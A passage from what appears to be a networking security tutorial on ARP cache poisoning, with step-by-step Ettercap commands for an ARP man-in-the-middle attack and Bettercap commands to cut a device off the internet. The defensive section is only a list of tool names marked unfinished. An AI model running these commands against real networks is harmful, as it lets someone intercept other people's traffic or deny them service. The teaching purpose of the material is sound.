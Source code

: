 > Automate portions of the above with tooling. Ettercap and Bettercap are the famous tools for this:
> 
> * Old demo of Ettercap's `remote_browser` plugin:
>     1. Make sure you have an appropriately configured `etter.conf`:
>         * Set `ec_uid` and `ec_gid` to user ID and group ID number you want Ettercap to become, e.g., `ec_uid = 1000`
>         * Set `remote_browser` to a command that makes sense, such as opening your Web browser, e.g., `remote_browser = "sudo -u vagrant xdg-open http://%host%url"`
>     1. Launch Ettercap in `--text` interface mode, performing an ARP MITM attack that also snarfs packets bound for remote networks (`--mitm arp:remote`) with the `--plugin` for the `remote_browser` activated and a chosen target:
>         ```sh
>         # Targets are specified as `[MAC address]/[IPv4 range]/[IPv6 range]/[port range]`
>         # The three delimiting slashes are required, the values are not. A missing value means "any."
>         # If `ettercap` complains about the "wrong number" of slashes (`/`), you may have
>         # a copy that does not have IPv6 support. See `ettercap -h | grep ^TARGET` to check target syntax.
>         sudo ettercap --text --quiet --mitm arp:remote --plugin remote_browser /192.168.61.50// /192.168.61.10//80
>         ```
> * Quick demo of Bettercap's "ARP ban" (spoofs the gateway's MAC address) that prevents a device from accessing the Internet:
>     1. Launch `bettercap` with `sudo bettercap`
>     1. Find a target: `net.show`
>     1. Set the target (otherwise, entire subnet is the target): `set arp.spoof.targets 192.168.9.10-50`
>     1. Activate the ARP ban hammer: `arp.ban on`
>     1. End the attack: `arp.ban off`

## Defending against ARP cache poisoning attacks

> :construction: TK-TODO
>
> Static ARP binding, the old-school `ethers(5)` file, `arptables(8)`, the [`arpon` utility](https://en.wikipedia.org/wiki/ArpON), various [GNU/Linux kernel tunables](https://www.kernel.org/doc/Documentation/networking/ip-sysctl.txt) (`arp_*`), `arpwatch`, `arping -d`, etc.

# Discussion

> :construction: TK-TODO

# Additional references

* [ARP Cache Poisoning](https://www.grc.com/nat/arp.htm)
